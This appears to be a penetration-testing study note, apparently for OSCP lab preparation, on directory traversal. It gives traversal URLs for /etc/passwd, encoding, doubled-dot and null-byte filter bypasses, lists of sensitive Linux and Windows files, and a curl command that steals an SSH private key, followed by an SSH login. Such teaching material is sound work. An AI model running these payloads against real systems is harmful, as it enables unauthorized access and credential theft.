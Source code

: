 
Allows attackers to gain unauthorized access to files within an app or files not normally accessible through a web interface.  
This vuln occurs when input is poorly validated allowing for manipulation of file paths with _**../**_ or _**..\\**_  
  
Can be used to help facilitate [file inclusion](9.2%20-%20File%20Inclusion.md) attacks.  

#### Absolute paths
Ex (from user's home folder):   /etc/passwd
- Specifies the full file system path including all subdirectories
- Starts with a '/' to denote the root file system

#### Relative paths
Ex (from user's home folder): ../../etc/passwd
- Refer to the path of a file/ dir relatively from where you currently are
	- Ex:     ../
- Number of **../** sequences is only relevant until the root file system is reached.
- Theoretically, can add as many **../** as desired, since there is nowhere further back to go from **/**
	- Can be useful in certain situations: when we don't know our current working directory.
		- Could specify a large number of **../** to ensure we reach the root file system from a relative pathing perspective.

#### Standard web root directories

Apache
- /var/www/html/  
MariaDB
- C:/xampp/htdocs/  
Nginx
- /usr/share/nginx/html  
- /data/www/
IIS
- inetpub

## ID'ing

Always important to hover over all buttons and links to gather info about the page's structure and how parameters are crafted, etc.

Found by examining URL query strings and form bodies in search of values that appear as file references (inc file extensions in URL query strings)  
Ex URL:  
```html
http://target.com/cms/login.php?language=en.html
```
	Note: Site uses php ^ (most aren't this obvious)
	the *language* parameter has an HTML page as its value.  if you can successfully open it, you can canfirm that en.html is a file on the server
		and can try other file names.
	*cms* directory indicates that the web app is running in a subdirectory of the web root
	
Test if file exists on the server:
```html
http://target.com/cms/en.html
```
	If successful, means it's a file stored on the server and allows for a potential entry point for other file names
	Always examine parameters closely when they use files as a value.

Depending on the error message received after playing with the ‘file’ parameter value, we may determine the OS and be able to adjust the XSS payload to target specific files  
Ex URL:  
```html
http://target.com/menu.php?file=c:\windows\system32\drivers\etc\hosts
```


## Testing

When viewing sites and their pages URLs, noticing how parameters for viewing these pages is important.
Scrolling down to the bottom of OSCP's example site, notice a link labeled 'Admin'
![](admin_oscpsite.png)
	Hovering over reveals the link:
```html
http://mountaindesserts.com/meteor/index.php?page=admin.php
```

PHP uses **$\_GET** to manage variables via the GET request.

Clicking on the link presents us an error message stating that the page is currently under maintenance.
![](adminlink_oscpsite.png)
	This info is shown on the SAME page as the index....

Navigating to **hxxp://mountaindeserts[.]com/meteor/admin.php** will show the SAME message that was shown on the **index.php** page after clicking the 'Admin' link.

***What this indicates***  is that the webapp includes the content of the admin.php page via the *page* parameter and displays it under the 'Admin' link
	- Hints at a potentially vulnerable parameter

Can now try to use **../** to traverse directories
```html
http://mountaindesserts.com/meteor/index.php?page=../../../../../../etc/passwd
```
![](dir_traversal.png)

## Encoding Special Characters

Because leveraging **../** is a known way to abuse web application behavior, this sequence is often filtered by either the web server, web application firewalls, or the web application itself.

So we can use URL encoding (Percent encoding) to potentially bypass the filters

[ASCII encoding table](https://www.w3schools.com/tags/ref_urlencode.asp)

**..** = **%2e**
**/** = **%2F**
```html
http://192.168.50.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

**NOTE:** URL Encoding
- The payload string may not need to be completely URL encoded.
	- Notably certain characters ( `.`, `-` and `/`) 
Although it's not always the case, this turns out to be important to the functioning of the payload.
- If any of these characters are encoded, the server will parse the URL differently, and the payload may not execute.
- This means we can't apply URL encoding across the whole payload once we've modified it.

Always test encoding/ not encoding payloads if running into errors.


### Encoding in [BurpSuite](Tools.md#BurpSuite)

BurpSuite also has a Decoder tab.

Allows for easy Encoding and Decoding for various types
- URL
- HTML
- Base64
- ASCII hex
- Hex
- Octal
- Binary
- Gzip

### Multiple ../

Also possible to use multiple sets of ../ within so that if the filter strips one set of ../ it'll leave the other.
```bash
http://192.168.50.16/cgi-bin/....//....//....//....//etc//passwd
```

## Useful directories and files

When retrieving important files (rsa private key for example), use [**curl**](OS%20Commands.md#curl) to obtain the information.
- Browsers often try to parse or optimize elements for user friendliness which could lead to issues.
- HTTP code with be returned, so only copy/ save the part you need.
	- For SSH keys, copy from **-----BEGIN OPENSSH PRIVATE KEY-----** through **-----END OPENSSH PRIVATE KEY-----** only
```bash
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../../home/offsec/.ssh/id_rsa
# copy ssh key parts only & save to a file <key_file>
# change the perms of the file to be strict
chmod 400 <key_file>
# connect via their ssh key
ssh -i <key_file> -p 2222 offsec@mountaindesserts.com
```

#### Linux  - /
- /etc/password - (get user names)
- /etc/shadow - (get user hashes)
- /etc/hosts - (get internal network mapping)
- /home/\<user>/.ssh/id_rsa - (get ssh keys from said users)
  
#### Windows  - \\
- C\:\\boot.ini
- C\:\\windows\\system32\\drivers\\etc\\hosts
- C:\\inetpub\\logs\\LogFiles\\W3SVC1\\. - (If running IIS web server, get logs)
- C:\\inetpub\\wwwroot\\web.config - (If running IIS web server, potentially get usernames or passwords)
  
  
## Null Bytes
Developers can specify the type of file it's looking for:  
```html
http://target.com/menu.php?file=/etc/passwd
<!--becomes-->
http://target.com/menu.php?file/etc/passwd.php
```
  
Adding the Null Byte _%00_ or _0x00_ to terminate the string and trick the webapp into ignoring everything else afterwards:  
```html
http://target.com/menu.php?file=/etc/passwd%00
```


*This is patched in PHP 5.3.4 and above  
  
If the files are blocked, can attempt to view them by adding a _./_ at the end:  
```html
http://target.com/menu.php?file=../../../../etc/passwd/.
```
